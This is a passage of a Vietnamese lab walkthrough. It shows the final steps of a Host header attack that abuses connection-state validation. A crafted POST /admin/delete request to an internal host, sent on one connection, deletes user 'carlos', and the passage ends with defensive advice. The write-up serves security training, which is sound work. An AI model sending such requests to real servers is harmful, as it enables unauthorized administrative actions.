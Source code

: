 7. Trong response của admin panel có form xóa user, ghi chú:

   - action = `/admin/delete`
   - input name = `username`
   - csrf token = giá trị CSRF token trong response.

8. Ở tab thứ hai trong group, tạo request mô phỏng việc submit form:

   ```
   POST /admin/delete HTTP/1.1
   Host: 192.168.0.1
   Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
   Content-Type: application/x-www-form-urlencoded
   Content-Length: CORRECT
   
   csrf=YOUR-CSRF-TOKEN&username=carlos
   ```

9. Tiếp tục gửi chuỗi request (send sequence) trên một kết nối duy nhất

   ![image-20250829001249883](./image/image-20250829001249883.png)

10. User `carlos` sẽ bị xóa, lab hoàn thành

------

#### Defense

- Không nên dựa vào request đầu tiên của một connection để xác thực cho toàn bộ các request sau đó.
- Kiểm tra chặt chẽ Host header cho từng request.
- Áp dụng allowlist domain hợp lệ thay vì chặn theo blacklist.
- Cô lập dịch vụ quản trị nội bộ, không để lộ qua cùng kênh với traffic bên ngoài.
